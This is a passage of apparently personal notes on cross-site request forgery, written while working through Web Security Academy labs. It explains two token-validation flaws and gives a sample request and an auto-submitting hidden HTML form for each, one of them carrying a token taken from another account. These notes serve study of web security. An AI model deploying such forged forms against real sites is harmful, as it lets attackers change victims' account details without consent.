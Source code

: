 ##### 2)Validation of CSRF token depends on token being present

 Some applications correctly validate the token when it is present but skip the validation if the token is omitted.

In this situation, the attacker can remove the entire parameter containing the token (not just its value) to bypass the validation and deliver a CSRF attack:

```HTTP
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm

email=pwned@evil-user.net
```

```html
<html>
    <body>
        <form action="https://0a89004003f36c2586bf68bd004700ee.web-security-academy.net/my-account/change-email" method='POST'>
            <input type="hidden" name="email" placeholder="Enter email"    value="csrf@csrf.com">
        </form>
        <script>
        window.onload = function() {
            document.forms[0].submit();
            //there is only 1 from in this page so index 0 
        }
        </script>
    </body>
</html>
```
##### 3)CSRF token is not tied to the user session 

 Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.

In this situation, the attacker can log in to the application using their own account, obtain a valid token, and then feed that token to the victim user in their CSRF attack.

Observe that if you swap the CSRF token with the value from the other account, then the request is accepted.

```html
<body>
    <form action="https://0a67003c03f6b4f382f33d830070000f.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="csrf@csrf.com">
        <input type="hidden" name="csrf" value="izJtO1DbXwOZpLplPCaC2cESgcnFlp4e">

    </form>
    <script>
    window.onload = function() {
        document.forms[0].submit();
        //there is only 1 from in this page so index 0 
    }
    </script>
</body>
</html>
```
***CSRF tokens are single-use***
